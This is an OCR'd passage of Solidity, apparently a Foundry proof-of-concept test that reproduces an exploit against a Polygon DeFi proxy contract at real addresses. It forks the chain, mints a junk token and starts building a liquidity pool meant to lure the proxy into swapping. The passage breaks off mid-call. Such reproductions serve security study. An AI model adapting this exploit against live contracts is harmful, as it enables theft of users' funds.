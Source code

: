 ```solidity
);

IERC20 constant USDC = IERC20(0x2791Bca1f2de4661ED88A30C99A7a9449Aa84174);
IERC20 constant WETH = IERC20(0x7ceB23fD6bC0adD59E62ac25578270cFf1b9f619);

// 我们自己的垃圾币
contract ExampleToken is ERC20 {
    constructor() ERC20("Example", "EXM") {
        _mint(msg.sender, 1_500_000 * 1e18);
    }
}

contract HackTest is Test {
    ExampleToken myToken;

    function setUp() public {
        vm.createSelectFork("polygon", 40066946);
        myToken = new ExampleToken();
        deal(address(WETH), address(this), 1 ether);
        vm.label(address(PHX_PROXY), "PHX_PROXY");
        vm.label(address(QuickSwapRouter), "QuickSwapRouter");
        vm.label(address(DPP), "DPP");
        vm.label(address(USDC), "USDC");
        vm.label(address(WETH), "WETH");
        vm.label(
            0x6d68bEB09ea7e76d561EA8C4Aac34A6611dd9821,
            "LogicContractOfProxy"
        );
        vm.label(0x0a6293a64D4C2EaaB8e349FA6A9F4D238d46b491, "polygonOracle");
        vm.label(
            0xd0289082cf4c5c2ba448B4B9c67232729aa75EfA,
            "coinInfo.stakePool"
        );
        vm.label(
            0x1021024d6Dc53BCb929eA0e6A664194809C9464a,
            "Logic of coinInfo.stakePool"
        );
    }

    function testHack() public {
        emit log_named_decimal_uint(
            "Attacker USDC balance before exploit:",
            USDC.balanceOf(address(this)),
            6
        );

        emit log_named_decimal_uint(
            "Attacker WETH balance before exploit:",
            WETH.balanceOf(address(this)),
            18
        );

        // 1. 构建垃圾币交易池， 方便代理合约过来置换~~
        myToken.approve(address(QuickSwapRouter), type(uint256).max);
        WETH.approve(address(QuickSwapRouter), type(uint256).max);

        QuickSwapRouter.addLiquidity(
            address(myToken),
            address(WETH),
            7 * 1e15,
            7 * 1e15,
            0,
            0,
```